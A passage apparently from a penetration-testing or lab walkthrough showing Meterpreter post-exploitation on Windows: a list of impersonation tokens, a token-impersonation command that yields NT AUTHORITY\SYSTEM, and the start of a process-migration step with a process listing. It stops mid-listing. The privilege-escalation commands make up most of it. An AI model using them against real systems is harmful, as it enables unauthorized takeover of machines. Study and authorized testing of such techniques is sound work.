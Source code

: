 ```
NT SERVICE\WSearch
NT SERVICE\wuauserv

Impersonation Tokens Available
========================================
NT AUTHORITY\NETWORK
NT SERVICE\AudioSrv
NT SERVICE\CryptSvc
NT SERVICE\DcomLaunch
NT SERVICE\Dhcp
NT SERVICE\DPS
NT SERVICE\LanmanWorkstation
NT SERVICE\lmhosts
NT SERVICE\MpsSvc
NT SERVICE\netprofm
NT SERVICE\NlaSvc
NT SERVICE\nsi
NT SERVICE\PolicyAgent
NT SERVICE\Power
NT SERVICE\ShellHWDetection
NT SERVICE\TermService
NT SERVICE\W32Time
NT SERVICE\WdiServiceHost
NT SERVICE\WinHttpAutoProxySvc
NT SERVICE\wscsvc
```

Note `BUILTIN\Administrators`.

```
meterpreter > impersonate_token "BUILTIN\Administrators"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```

### migrating

Windows uses primary tokens, not impersonated tokens to determine what a process can do.

```
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System                x64   0
 396   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\smss.exe
 524   516   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 572   564   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 580   516   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wininit.exe
 608   564   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe
```